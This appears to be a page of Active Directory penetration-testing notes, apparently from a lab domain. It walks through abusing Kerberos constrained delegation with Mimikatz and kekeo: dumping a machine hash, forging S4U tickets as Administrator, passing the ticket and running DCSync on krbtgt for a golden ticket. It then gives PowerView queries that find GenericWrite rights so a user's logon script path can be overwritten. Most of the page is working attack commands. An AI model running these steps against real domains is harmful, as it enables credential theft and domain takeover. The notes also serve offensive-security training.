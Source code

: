 ```bash
# Enumerate
Get-DomainComputer -TrustedToAuth

# u can find it in msds-allowedtodelegateto

. .\Invoke-Mimikatz.ps1
invoke-mimikatz
# STUDENT$ ntlm aa81bb97a48748ad89541137bf78001f

# ask dc for a tgt for the student server
# Download kekeo:
https://github.com/gentilkiwi/kekeo/releases
kekeo.exe
tgt::ask /user:student$ /domain:pentesting.local /rc4:aa81bb97a48748ad89541137bf78001f

# ask dc for a tgs for the student server
tgs::s4u /tgt:TGT_student$@PENTESTING.LOCAL_krbtgt~pentesting.local@PENTESTING.LOCAL.kirbi /user:Administrator@pentesting.local /service:time/ad.pentesting.local|ldap/ad.pentesting.local

# use the tgs and inject it
. ..\..\invoke-mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@pentesting.local@PENTESTING.LOCAL_student$@PENTESTING.LOCAL.kirbi"'

# Dcsync to perform a goldent ticket attack
Invoke-Mimikatz -Command '"lsadump::dcsync /user:pentesting\krbtgt"'
```

# ACL - GenericWrite on User

WriteProperty on an ObjectType allow us to modify/overwrite the Script-Path, which means that the next time, when the user logs on, their system will execute our malicious script:

## Enumerate to find all objects with GenericWrite
```bash
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite')}
```

## Enumerate to find all objects with GenericWrite and for my current username
```bash
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603')}
```

## Enumerate to find ippsec with GenericWrite and for my current username
```bash
Get-ObjectAcl -SamAccountName "ippsec" -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603')}
```
